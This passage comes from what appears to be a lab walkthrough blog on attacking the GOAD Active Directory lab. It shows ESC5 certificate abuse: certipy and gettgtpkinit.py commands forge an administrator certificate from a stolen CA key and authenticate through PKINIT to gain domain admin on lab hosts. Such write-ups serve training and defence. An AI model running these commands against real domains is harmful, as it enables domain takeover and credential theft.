 ![part14_esc5_new_da.png](/assets/blog/GOAD/part14_esc5_new_da.png)

- And the user is DA
![part14_esc5_new_da_ondc.png](/assets/blog/GOAD/part14_esc5_new_da_ondc.png)

### with pkinit
- Another way to use the pfx could be to authenticate directly with pkinit.
```bash
gettgtpkinit.py -cert-pfx administrator_forged.pfx -dc-ip 192.168.56.12 "essos.local/administrator" admin_tgt.cccache
```

- but when running i get the following error : "Error Name: KDC_ERR_CLIENT_NOT_TRUSTED Detail: "The client trust failed or is not implemented"" x)

- Oliver Lyak said this on certipy page: 
> "it means that the forging was not correct. This usually happens because of a missing certificate revocation list (CRL) in the certificate"

- Let's try again with an existing certificate as parameter:

```bash
# ask for a certificate for our user
certipy req -u 'khal.drogo@essos.local' -p horse -ca 'ESSOS-CA' -template User -target 192.168.56.23

# then reforge with this template as parameter
certipy forge -ca-pfx 'ESSOS-CA.pfx' -upn administrator@essos.local -template khal.drogo.pfx

# verify pkinit connection (unpac the hash)
certipy auth -pfx administrator_forged.pfx -dc-ip 192.168.56.12
```

> If you get the error "KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)" just reboot DC03: `stop_vm GOAD-DC03` then `start_vm GOAD-DC03`
{: .prompt-tip }

![part14_esc5_pkinit.png](/assets/blog/GOAD/part14_esc5_pkinit.png)
